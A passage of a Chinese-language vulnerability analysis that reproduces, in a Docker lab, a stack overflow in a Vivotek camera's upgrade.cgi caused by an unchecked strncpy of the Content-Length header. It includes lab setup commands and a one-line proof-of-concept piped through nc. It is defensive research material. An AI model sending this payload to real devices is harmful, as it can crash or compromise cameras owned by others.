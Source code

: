 解释下逻辑：

截取 Content-Length 的字符串然后用 strncpy 放到 dest 中，但是并没有对字符串做长度检测

我们看看 dest 变量和栈底的距离

[![](assets/1706496082-977937a3052549d896731713f96c1b8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170030-5b0bea10-bc29-1.png)

只有 0x38 大小，那肯定能进行栈溢出了

所以我们启动容器，测试漏洞原作者给的 payload

```plain
#启动系统环境
docker compose -f docker-compose-system.yml up
#启动用户环境
docker-compose -f docker-compose-user.yml up
# 等待启动完成，重新打开一个窗口
docker exec -it vivotek-system /bin/bash
```

```plain
#连接测试用户端口
root@6f747349c6c3:~# nc -v 192.168.2.2 80
192.168.2.2 [192.168.2.2] 80 (http) open
#或是浏览器输入 URL：127.0.0.1:8888
```

[![](assets/1706496082-10820ee7a02daf7e9a20191b3075989c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170034-5da21c86-bc29-1.png)

```plain
#在新窗口中输入 poc
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 192.168.2.2 80
```

[![](assets/1706496082-271ab72561bf306b72e7ce07276776e9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170023-56d452e8-bc29-1.png)
